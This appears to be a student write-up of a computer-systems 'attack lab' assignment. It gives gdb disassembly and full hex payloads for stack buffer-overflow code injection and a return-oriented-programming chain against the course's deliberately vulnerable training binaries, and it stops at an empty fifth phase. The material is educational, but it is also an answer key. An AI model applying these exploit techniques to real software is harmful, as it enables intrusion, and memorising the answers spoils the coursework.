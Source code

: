 # The attack lab 

## The attack 1

This one is simply a code injection, it will use t

he function `getbuf`
```nasm
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
```
So it will allcate a space of 32+8 = 40 bytes space. It more than 40 bytes is 
given, it will get more space from the stack .
So we need to attach the address of the function touch1 to the injection data.

```nasm
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	call   0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>
End of assembler dump.
```

So the final input is 
```c
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
For the reason of little endian storage. So it is like this. 

## The attack 2
In this problem, we need to inject the data which contianis the cookie. 

Disassemble the function touch2, we can get the code below.

```nasm
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
```
The touch2's parameter is `val`, this val is storaged in the `rdi`, so our target 
is to set the `rdi` to be `cookie`

In this way, we can do like this 

使用汇编生成一段攻击的代码，将rdi的值设置为cookie，同时将touch2的地址push到我们的栈
中去。

```nasm
pushq $0x4017ec # The address of the touch2 
mov $0x59b997fa, %rdi 
ret
```

```nasm
> gcc -c hack.s
> ls
ans11.txt  ans21.txt  attacklab.pdf  ctarget  farm.c  hack.s   note.md     rtarget
ans1.txt   ans2.txt   cookie.txt     ctar.s   hack.o  hex2raw  README.txt
> objdump -d hack.o

hack.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

> When you gdb the ctarget, you should `set args -q -i [file]` 
> Then  `b getbuf` , you can get the top of the stack 

```nasm
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```
So the attack string should be
```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55
```

In the code, it will return to the top of the stack. Then it will 
execute the hack code. The `edi` will be like the cookie,and it will be push 
into the stack.

# The attack 3

In the attack 3, it use the function hexmatch, so the stack will be changed. 
If you storage the data of the cookie in the stack place allcated by the getbuf
will be changed, so we need to palce the cookie into the older place. 
The hack code should be like this.
```nasm
pushq $0x4018fa
movq $0x5561dca8,%rdi
ret
```
After objdump it. we can get its machine instructions. 
```c
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00 <<== machine code 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <<== The top of the stack 
35 39 62 39 39 37 66 61 <<== The string 
```

# The attack 4

For the attack 4, it is different from the previous attacks, you can not use the 
code injection directly in the phase2 because
- the stack is random. You won't know where your code is put. 
- The code in the stack is unexecuteable, you can only jump to a certain code. 

So you will need to using the command and the reg to achieve it. 

So the command we need will be the 
```nasm
push cookie (1)
popq %rax   (2)
movq %rax, %rdi (3)
```
The cookie should be put in the old place than the (2)
Then we should make the (3) and the address of the `touch2` at the older place of 
the stack. 

```nasm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 <<== (1)
fa 97 b9 59 00 00 00 00 <<== cookie
c5 19 40 00 00 00 00 00 <<== (3)
ec 17 40 00 00 00 00 00 <<== address of the touch2 
```

# The attack 5




